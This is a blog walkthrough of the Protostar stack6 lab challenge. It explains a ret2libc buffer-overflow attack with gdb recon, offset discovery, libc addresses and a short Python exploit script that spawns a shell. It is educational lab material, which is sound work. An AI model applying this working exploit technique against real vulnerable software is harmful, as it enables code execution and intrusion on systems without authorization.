 ```yaml
---
title: "ROP: ret2libc Attack -Protostar6"
author: "Trevor saudi"
date: 2021-05-12T10:30:13.245Z
lastmod: 2022-05-24T14:32:01+03:00

description: ""


image: "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/2.png" 
images:
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/1.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/2.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/3.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/4.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/5.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/6.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/7.jpeg"


aliases:
    - "/rop-ret2libc-attack-protostar6-ab537d59b6a8"

---
```


## Bypassing stack pointer restrictions to gain arbitrary code execution

![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/1.png#layoutTextWidth)


[_Protostar_](https://www.vulnhub.com/entry/exploit-exercises-protostar-v2,32/) _is a series of beginner binary exploitation challenges which showcases concepts like basic stack-based buffer overflows, bypassing stack protections and even performing format string attacks. I tried out these challenges as I have close to 0 experience with binary exploitation and wanted to learn some of it and it turned out fun. So let’s get to_ [_protostar6_](https://exploit.education/protostar/stack-six/) _and learn some ret2libc !_

### Source code analysis and some recon

We are given the source code below to protostar6.c

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0); 

  if((ret & 0xbf000000) == 0xbf000000) { 
      printf("bzzzt (%p)\n", ret); 
      _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

As of previous challenges, our goal is get code execution on the target host which has the compiled binary of this source code. Some of the key things to understand here are:

*   ```gets(buffer) :``` The program will ask as for an input and store it an ```buffer of size 64 bytes.``` Gets is a vulnerable function in C that causes stack overflows
*   ```ret``` : __builtin_return_address(0) - This function checks the current return address on the stack and sets it to a variable ret
*   ```if((ret &amp; 0xbf000000) == 0xbf000000) :``` This check performs a ```bitwise AND``` operation with the ```current address on the stack``` with the hex value ```0xbf000000``` and then compares it with 0xbf000000. Essentially what this means is that, it checks if the first byte in the return address is equal to 0xbf, since the remaining bytes will be converted to 0 in the AND operation.````Suppose our return address points to``` 0xbfffff01, the check is performed as follows```  
Operation``` |    ```HEX```    |    ```Binary```  
__________|___________|__________________________________________  

           0xbfffff01 = 10111111 11111111 11111111 00000001  
      ```AND```  0xbf000000 = 10111111 00000000 00000000 00000000  
_________________________________________________________________             
The AND operation gives 0xbf000000. So any address beginning with 0xbf will cause the condition to return to true and exit the program`

*   ```_exit(0) :``` A system call to exit the function if the operation above gives us an address beginning with 0xbf

### Logic behind the non-executable stack protection

In classic buffer overflows, our goal is usually to overwrite the instruction pointer / the return address with the address at the top of the stack where we put our shell code and get code execution.

But in this case, if we were to overwrite the return address with an address on the stack , the operation fails and the program exits. Let us see why using gdb

![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/2.png#layoutTextWidth)


Running the program and viewing how the addresses are mapped in memory we see something interesting. All addresses in the stack begin with 0xbf thus hijacking the control flow and pointing to the stack will fail

### ret2libc Exploit

A ret2libc (return to libc, or return to the C library) attack is one in which the attacker does not require any shellcode to take control of a target, vulnerable process.

“ Every time you write a C program, you use one or the other of the inbuilt functions, like `printf`, `scanf`, `puts` etc. Have you wondered where the definitions of these functions lie? All the standard C functions have been compiled into a single file, named ```the standard C library``` or the `libc`.You can use the `ldd` command to find out which libc is being used by an application. ”

![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/3.png#layoutTextWidth)


We can leverage this technique by jumping to the return address of libc . libc has a syscall named `system` that we will use to execute ‘/bin/sh’ and gain shell

### Developing the exploit

1.  We begin by finding the location of the EIP. Generate the crash pattern and supply in gdb

```bash
/usr/bin/msf-pattern_create -l 100  
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

*   Supply the pattern and note down the address in the EIP
![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/4.png#layoutTextWidth)


*   Let us get the offset of the pattern 
```bash
/usr/bin/msf-pattern_offset -l 100 -q 0x37634136  
[*] Exact match at offset 80
```

2. Finding the address of libc

*   As noted earlier this can be done using `info proc map` the location of the libc is at `/lib/libc-2.11.2.so` with address `0xb7e97000` . The address in this case does not start with 0xbf hence we can load it onto the stack bypassing the stack protection
![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/5.png#layoutTextWidth)


3. Finding the address of the ```system``` syscall
`(gdb) p system ```&lt;--- p means print```  
$1 = {&lt;text variable, no debug info&gt;} 0xb7ecffb0 &lt;__libc_system&gt;  
(gdb)`

4. Finding the location of the ‘/bin/sh’ within libc
`root@protostar:/opt/protostar/bin# strings -a -t x /lib/libc-2.11.2.so | grep &#34;/bin/sh&#34;  
 11f3bf /bin/sh  

`

*   strings command lists all readable strings
*   a scans through the entire file
*   -t x will print the addresses in hex
*   grep locates the string we specify with ‘/bin/sh’

In summary our exploit will

*   fill up the padding using 80 characters to reach the EIP.
*   Overwrite the EIP using the `system` syscall address which gets loaded onto the stack.
*   Since the stack will return control flow to the program, we still want to be in control of the EIP so we can chain multiple function calls. We cause the EIP to segfault using an invalid address that will be loaded onto the stack.
*   Then we load the address of the location of the ‘/bin/sh’ which will be `the libc address + offset of ‘/bin/sh’` that we found above.
*   Now the next address on the stack will be pointing to the string `‘/bin/sh’ `which system executes as `system(‘/bin/sh’)` and gives a shell

### Putting together a python exploit script

You could use pwntools for this but I will keep the walkthrough simple.
`import struct``## EIP OFFSET  
payload = &#34;A&#34;*80``## libc SYSTEM SYSCALL  
system = struct.pack(&#34;I&#34;,0xb7ecffb0)``## Ret address after system  
ret = &#34;\x90&#34; * 4``## libc /bin/sh  
shell = struct.pack(&#34;I&#34;,0xb7e97000+0x11f3bf)``print (payload + system+ret+shell)`

We run the exploit and concatenate with the `cat` command to open an stdin stream so we have access to the shell we get

![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/6.png#layoutTextWidth)


If this walkthrough is not enough, I recommend using other resources to understand the concept of ret2libc as it may not be easy to grasp on the first try.

Happy hacking :)

![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/7.jpeg#layoutTextWidth)

